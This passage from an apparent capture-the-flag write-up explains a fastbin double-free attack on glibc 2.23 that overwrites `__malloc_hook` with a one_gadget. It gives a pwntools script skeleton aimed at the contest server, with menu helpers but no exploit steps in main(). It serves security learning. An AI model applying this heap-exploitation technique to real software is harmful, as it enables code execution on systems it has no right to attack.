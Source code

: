 So, to implement this attack, we need to get a pointer to `__malloc_hook`. This can be done by using a [fastbin double free](https://github.com/shellphish/how2heap/blob/master/glibc_2.23/fastbin_dup_into_stack.c), which then overwrites `__malloc_hook` with a suitable `one_gadget`.

The exploit is the following:

```py
#!/usr/bin/env python3

from pwn import *

HOST = "pwn.glacierctf.com"
PORT = 13377

exe = ELF("./old_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

context.binary = exe
context.log_level = "debug"
context.terminal = ["kitty"]
io = None


def conn(*a, **kw):
    if args.LOCAL:
        return process([exe.path], **kw)
    elif args.GDB:
        return gdb.debug([exe.path], gdbscript="symbol-file old", **kw)
    else:
        return remote(HOST, PORT, **kw)


## Add functions below here, if needed
def add(idx, size):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"idx:", str(idx).encode())
    io.sendlineafter(b"size: ", str(size).encode())


def free(idx):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"idx: ", str(idx).encode())


def change(idx, content):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b"idx: ", str(idx).encode())
    io.sendafter(b"contents: ", content)


def view(idx):
    io.sendlineafter(b"> ", b"4")
    io.sendlineafter(b"idx: ", str(idx).encode())


def bye():
    io.sendlineafter(b"> ", b"5")


def main():
    global io
    io = conn(level="debug")

    ## good luck pwning :)
```